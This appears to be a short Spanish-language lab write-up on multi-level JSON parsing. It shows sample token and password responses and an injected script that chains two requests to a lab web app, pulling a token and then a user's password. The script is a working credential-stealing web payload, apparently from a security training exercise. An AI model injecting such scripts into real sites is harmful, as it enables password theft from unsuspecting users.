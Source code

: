 ### MULTI LEVEL JSON PARSING

ejemplo de los json:

```json
{
	"params":{
		"id":5,
		"token":"abc123",
		"test":"test",
		"test":"test",
	}
}
```

```json
{
	"resp":{
		"id":5,
		"token":"abc123",
		"test":"test",
		"password":"P@$$w0rd!",
		"test":"test",
	}
}
```

```html
<script>
        let request = new XMLHttpRequest();
        request.onreadystatechange = function() {
            if ((request.readyState === 4) && (request.status === 200)) {
            	//la respuesta es JSON asi que la parseamos
                let items = JSON.parse(request.responseText);
                for (let keys in items) {
                    let tokenid = items[keys].token;
                    break;
                }
                let req = new XMLHttpRequest();
                req.onreadystatechange = function() {
                    if ((req.readyState === 4) && (req.status === 200)) {
                        let newitems = JSON.parse(req.responseText);
                        for (let key in newitems) {
                            pass = newitems[key].password;
                            alert(pass);
                            break;
                        }
                    }
                }
                req.open('GET', '/lab/webapp/jfp/20/getpassword?token=' + tokenid);
                req.send();
            }
        }
        request.open('GET', '/lab/webapp/jfp/20/gettoken?uid=3476');
        request.send();
</script>
```
